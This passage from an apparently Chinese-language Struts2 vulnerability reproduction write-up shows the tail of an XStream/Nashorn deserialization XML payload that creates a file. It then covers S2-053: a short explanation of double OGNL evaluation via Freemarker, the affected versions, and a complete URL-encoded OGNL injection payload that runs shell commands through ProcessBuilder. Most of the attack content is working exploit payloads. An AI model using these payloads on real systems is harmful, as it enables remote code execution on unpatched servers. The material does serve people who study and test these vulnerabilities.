 ```
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```


![image-20201216180157905](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216180157905.png)

创建success文件，可更改poc内容



## 0X0C S2-053复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞

**影响版本**：

- Struts 2.0.1-2.3.33
- Struts 2.5-2.5.10

POC

```
redirectUri=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmds%3D%28%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27**id**%27%7D%29%29.%28%23p%3Dnew+java.lang.ProcessBuilder%28%23cmds%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D%0A
```
